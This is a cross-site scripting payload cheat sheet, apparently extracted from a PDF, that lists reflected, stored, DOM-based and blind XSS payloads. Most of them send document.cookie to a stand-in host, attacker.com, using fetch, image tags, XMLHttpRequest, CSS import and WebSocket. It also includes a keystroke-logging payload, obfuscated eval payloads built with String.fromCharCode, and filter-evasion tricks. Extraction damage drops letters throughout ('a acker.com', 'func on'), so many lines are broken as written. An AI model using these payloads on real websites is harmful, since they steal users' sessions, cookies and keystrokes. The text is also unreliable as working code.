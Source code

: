**Reflected Cross-Site Scrip ng (XSS)**

1. Basic alert: 
<script>alert('XSS');</script> 
1. Stealing Cookies: 
<script>fetch('h p://a acker.com/log?cookie=' + document.cookie);</script> 
2. Redirec ng the User: 

<script>window.loca on='h p://a acker.com'</script> 

3. Bypassing Filters (using encoded characters): 

<img src=x onerror=alert('XSS')> 

Or encoded version: 

%3Cimg%20src%3Dx%20onerror%3Dalert%281%29%3E 

4. Using an Event Handler: 

<a href="#" onclick="alert('XSS')">Click me!</a> 

5. Advanced Payload (using IIFE): 

<script>(()=>{alert('XSS')})()</script> 

----

**Stored Cross-Site Scrip ng (Stored XSS)** 

1. Simple Alert Box: 
<script>alert('XSS');</script> 
2. Stealing Cookies: 
<script>fetch('h ps://a acker.com/log?cookie=' + document.cookie);</script> 
3. Session Hijacking using Image Tag: 
<img src="x" onerror="fetch('h ps://a acker.com/log?cookie='+document.cookie)"> 
4. Automa c Redirec on 
<script>window.loca on='h ps://a acker.com'</script> 
Advanced Payloads 
1. Bypassing Filters (using JavaScript event handlers): 
<svg onload=alert('XSS')> 
2. Using HTML A ributes: 
<input type="text" value="" onfocus="alert('XSS')" autofocus> 
3. Obfuscated JavaScript: 
<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script> 
4. IIFE (Immediately Invoked Func on Expression): 
<script>(func on(){alert('XSS')})()</script> 

---
**DOM-based Cross-Site Scrip ng (DOM XSS)**
1. URL Parameter Exploita on 
h p://example.com/page.html?name=<script>alert('XSS')</script> 
2. Loca on Hash Manipula on 
h p://example.com/page.html#<img src=x onerror=alert('XSS')> 
3. document.referrer Exploita on 
<a href="h p://example.com/vulnerablePage.html">Go to vulnerable site</a> 
4. Using localStorage 
localStorage.setItem('user', '<img src=x onerror=alert("XSS")>'); 
loca on.reload(); 
5. Bypassing Filters with eval() 
h p://example.com/page.html?data=alert('XSS') 
6. loca on.search with innerHTML 
h p://example.com/page.html?message=<svg/onload=alert('XSS')> 

---

**Basic Blind XSS Payloads **
1. Basic Exfiltra on using <script> 
<script>new Image().src='h ps://a acker.com/log?cookie='+document.cookie;</script> 
2. Using fetch() for Stealth 
<script> 
fetch('h ps://a acker.com/log', { 
method: 'POST', 
mode: 'no-cors', 
body: 'cookie=' + document.cookie + '&url=' + loca on.href 
}); 
</script> 
3. Stealing Data with an img tag 
<img src="h ps://a acker.com/log?data=" + document.cookie> 
Advanced Blind XSS Payloads 
1. Using XMLH pRequest 
<script> 
var xhr = new XMLH pRequest(); 
xhr.open("GET", "h ps://a acker.com/log?cookie=" + document.cookie, true); 
xhr.send(); 
</script> 
2. DOM Exfiltra on with window.onunload 
<body onunload="fetch('h ps://a acker.com/log?cookie=' + document.cookie)"> 
3. Keylogger Payload 
<script> 
document.onkeypress = func on(e) { 
fetch('h ps://a acker.com/keys?key=' + String.fromCharCode(e.which)); 
}; 
</script> 

---

**Obfuscated and Filter Evasion Techniques**
1. Encoded Characters 
<script>eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,
 97,116,116,97,99,107,101,114,46,99,111,109,47,108,111,103,63,99,111,111,107,105,101,61
 ,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41));</script> 
2. Bypassing Filters with SVG 
<svg onload="fetch('h ps://a acker.com/log?cookie='+document.cookie)"> 
3. Using setTimeout 
<script>setTimeout(func on(){fetch('h ps://a acker.com/log?cookie='+document.cookie)}, 2000);</script> 

---

**Stealthy Payloads for Non-Script Contexts**
1. Using an HTML Attribute 
<iframe srcdoc="<script>new 
Image().src='https://attacker.com/log?cookie='+document.cookie;</script>"></iframe> 
2. CSS-Based Payload 
<style>@import 'https://attacker.com/log?cookie='+document.cookie;</style> 
3. Exfiltra ng via WebSocket 
<script> 
let ws = new WebSocket("wss://a acker.com/socket"); 
ws.onopen = func on() { 
ws.send(document.cookie); 
}; 
</script>

---
